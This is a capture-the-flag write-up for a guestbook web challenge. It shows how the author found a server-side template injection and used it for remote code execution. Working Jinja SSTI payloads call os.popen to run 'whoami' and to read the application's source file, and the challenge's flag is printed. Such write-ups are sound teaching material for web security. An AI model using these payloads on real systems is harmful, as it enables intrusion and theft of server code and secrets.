


# Guestbook (Beta)
> You know what you do!

## About the Challenge
Given a website without the source code, where users can input desired names and the inputted names will be displayed on the website page.



In the example above, I tried inputting a name with the value "test" and the result appeared on the website.

## How to Solve?
This website is vulnerable to Server-Side Template Injection (SSTI), which can be demonstrated by inputting `{{7*7}}` in the name parameter, resulting in an output of 49.



Here, I will attempt further exploitation by performing Remote Code Execution (RCE) through leveraging SSTI. The payload I am using is:

```
{{lipsum.__globals__.os.popen('whoami').read()}}
```


It's apparent that the output on the website is "noob," indicating that we've successfully performed Remote Code Execution. The flag's location is within the source code of the Python application. To retrieve the flag, here's the payload I used:

```
{{lipsum.__globals__.os.popen('cat /app/main.py').read()}}
```


```
0byteCTF{Th3_M4n_wh0_Th1nks_h3_C4n_4nd_th3_M4n_wh0_Th1nks_h3_C4nt_4r3_B0th_R1ght}
```